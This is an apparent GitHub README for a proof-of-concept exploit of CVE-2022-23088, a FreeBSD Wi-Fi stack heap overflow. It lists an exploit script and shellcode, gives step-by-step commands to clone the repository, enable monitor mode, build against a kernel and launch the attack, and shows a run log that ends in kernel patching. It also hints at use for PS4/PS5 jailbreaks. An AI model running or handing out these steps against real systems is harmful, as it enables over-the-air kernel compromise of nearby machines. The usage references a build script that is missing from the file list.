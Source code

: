 ### CVE-2022-23088 - FreeBSD Wi-Fi Stack Heap Overflow Exploit 

##  Proof-of-Concept (PoC) for exploiting a heap overflow in the FreeBSD Wi-Fi stack 


----------------------------

## 📌 Overview

CVE-2022-23088 is a heap overflow vulnerability in the Wi-Fi stack of FreeBSD, which can be exploited by sending specially crafted Wi-Fi frames.

- ✅ Work on FreeBSD 13.0=<
- ✅ Can be modified for PS4/PS5 with jailbreak ??

----------------------------

## 📂 Files Included

exploit.py → The main exploit script

shellcode.bin → Shellcode to be injected into memory

x86.py → Helper functions for calculating memory addresses


-----------------------------

## 🛠️ Requirements

- Wi-Fi card that supports Monitor Mode
- Linux environment (for running the exploit)
- Python dependencies (pip)
```
pip install pyelftools
```

-----------------------------
## Usage :

1️⃣ Running the Exploit on linux :

First, ensure you have a Wi-Fi card that supports Monitor Mode.


wifi0 → Your Wi-Fi network interface (check with ifconfig)

# 1
```
git clone https://github.com/Dark-life944/PoC-PS5-PS4.git && cd PoC-PS5-PS4 && cd CVE-2022-23088
```
# 2
```
sudo ifconfig wifi0 down && sudo iwconfig wifi0 mode monitor && sudo ifconfig wifi0 up
```
# 3 
```
./build.py kernels/fbsd-13.0-release
```
# 4
```
sudo ./exploit.py wifi0 kernels/fbsd-13.0-release
```
# log of the exploit :
- [+] Phase 1: writing page1
- [+] Phase 2: writing L3
- [+] Phase 3: patching kernel
- [+] Phase 4: repairing
- [+] Finished
